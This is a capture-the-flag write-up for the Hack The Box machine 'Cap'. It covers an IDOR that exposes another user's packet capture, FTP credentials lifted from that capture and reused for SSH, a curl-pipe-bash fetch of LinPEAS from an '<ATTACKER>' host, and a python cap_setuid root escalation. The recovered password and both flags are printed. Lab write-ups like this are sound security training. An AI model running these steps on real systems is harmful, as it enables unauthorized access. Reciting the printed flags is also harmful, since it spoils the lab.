# Cap — Write-Up

| Field | Details |
|---|---|
| **Machine** | [Cap](https://app.hackthebox.com/machines/Cap) |
| **Platform** | [Hack The Box](https://hackthebox.com/) |
| **Operating System** | Linux (Ubuntu 20.04) |
| **Difficulty** | Easy |
| **Flags** | 2 (user + root) |

---

## Reconnaissance

### Port Enumeration

A full Nmap scan is run to discover active services on the machine:

```bash
nmap -p- -sCV -T5 10.129.32.218 -oN cap
```



Services found:

| Port | Service | Version |
|---|---|---|
| 21/tcp | FTP | vsftpd 3.0.3 |
| 22/tcp | SSH | OpenSSH 8.2p1 Ubuntu |
| 80/tcp | HTTP | Gunicorn (title: Security Dashboard) |

---

## Web Enumeration — IDOR

Port 80 hosts a **Security Dashboard** that captures network traffic and allows downloading the results as PCAP files. Browsing the application, navigating to `/data/2` shows statistics for a capture containing only 6 packets:



The URL follows the pattern `/data/<id>`. Manually changing the parameter to `/data/0` is tested:



This is an **IDOR** (Insecure Direct Object Reference) vulnerability: the application does not verify that the requested resource belongs to the authenticated user, allowing access to other users' captures. PCAP number `0` contains **72 packets** — far more traffic than the user's own capture. It is downloaded using the *Download* button.

---

## PCAP Analysis with Wireshark

### Opening the file

`0.pcap` is opened in Wireshark to analyze the captured traffic:



Both HTTP and FTP traffic are visible in the capture.

### Protocol Hierarchy

To identify which protocol holds the most relevant information, the Protocol Hierarchy statistics are checked (*Statistics → Protocol Hierarchy*):



**FTP** accounts for 34.7% of total traffic (25 packets). This is especially significant because **FTP transmits credentials in cleartext** — no encryption whatsoever.

### Extracting FTP Credentials

The following display filter is applied in Wireshark to isolate FTP traffic only:

```
_ws.col.protocol == "FTP"
```



Credentials are exposed in plaintext within the authentication packets:

| Field | Value |
|---|---|
| **Username** | `nathan` |
| **Password** | `Buck3tH4TF0RM3!` |

---

## Initial Access

### FTP Connection

Using the credentials recovered from the PCAP, the FTP service is accessed:

```bash
ftp nathan@10.129.32.218
```



### User Flag

The `user.txt` file is found directly in the FTP server's root directory:

```ftp
ls
get user.txt
```



```bash
cat user.txt
```



Flag: **`4f762be5f7626a17b04f7e84853f1506`**

### SSH Connection

The same password works for SSH as well (credential reuse):

```bash
ssh nathan@10.129.32.218
```



Confirmed access to **Ubuntu 20.04 LTS** as user `nathan`.

---

## Privilege Escalation

### Enumeration with LinPEAS

**LinPEAS** is transferred from the attacking machine and executed to automate the search for privilege escalation vectors:

```bash
# On the attacking machine:
python3 -m http.server 82

# On the victim machine:
curl http://<ATTACKER>:82/linpeas.sh | bash
```



LinPEAS flags a critical **Linux Capability** assigned to the Python binary:

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

### What are Linux Capabilities?

**Linux Capabilities** are a kernel mechanism that splits root's privileges into smaller, granular units. Instead of running an entire program as root, specific capabilities can be granted to individual binaries.

Here, `cap_setuid` allows the process to **arbitrarily change its UID** (User ID), which is equivalent to being able to become any user on the system — including `root` (UID 0). Since `python3.8` has this capability set with the `+eip` flags (effective, inheritable, permitted), any user executing that binary can escalate to root.

### Exploitation

The Python interpreter is launched directly and `cap_setuid` is used to set the UID to `0` (root) before spawning a shell:

```bash
/usr/bin/python3.8
```

```python
import os
os.setuid(0)
os.system("/bin/bash")
```



### Verification

```bash
whoami
```


Confirmed: **root**.

### Root Flag

```bash
cd /root
la
cat root.txt
```



Flag: **`54cf7e33807879e5f766e03255dcae19`**

---

## Summary

| Phase | Technique | Tool |
|---|---|---|
| Enumeration | Port Scan | `nmap` |
| Web enumeration | IDOR on `/data/<id>` | Browser |
| Traffic analysis | PCAP inspection | Wireshark |
| Credential harvesting | FTP cleartext credentials | Wireshark (FTP filter) |
| Initial access | FTP + SSH (password reuse) | `ftp`, `ssh` |
| Internal enumeration | Automated script | LinPEAS |
| Privilege escalation | Linux Capability `cap_setuid` on Python | `python3.8` |
